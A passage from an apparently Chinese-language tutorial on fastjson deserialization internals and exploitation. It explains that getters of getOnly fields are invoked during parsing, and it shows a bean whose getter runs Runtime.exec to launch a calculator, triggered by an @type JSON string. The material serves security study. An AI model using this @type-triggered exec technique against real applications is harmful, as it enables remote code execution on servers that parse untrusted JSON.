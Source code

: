 在setValue函数中，我们可以看到，this.fieldInfo满足私有属性（private)且getOnly的时候，意思是只存在getter方法，不存在setter方法的时候，且类型为AtomicInteger，AtomicLong，AtomicBoolean，Map，Collection的时候，会直接调用getter方法，这里我用AtomicInteger示例

```java
// javaBean
public class User {
    private String name;
    private String age;
    private AtomicInteger test;

    public AtomicInteger getTest() {
        try{
            Runtime.getRuntime().exec("gnome-calculator");
        }catch (Exception e){
            e.printStackTrace();
        }

        return test;
    }
}
```
![image.png](./fastJson反序列化原理及利用.assets/2023_05_19_16_10_35_H7Wfe65A.png)

```java
// Main
package com.aaron.test;

import com.alibaba.fastjson.JSON;

public class Main {
    public static void main(String[] args) {
        String json = "{\"@type\":\"com.aaron.test.User\",\"test\":12,\"name\":\"aaron\",\"age\":\"23\"}";
        Object obj = JSON.parse(json);
        System.out.println(obj);
    }
}

```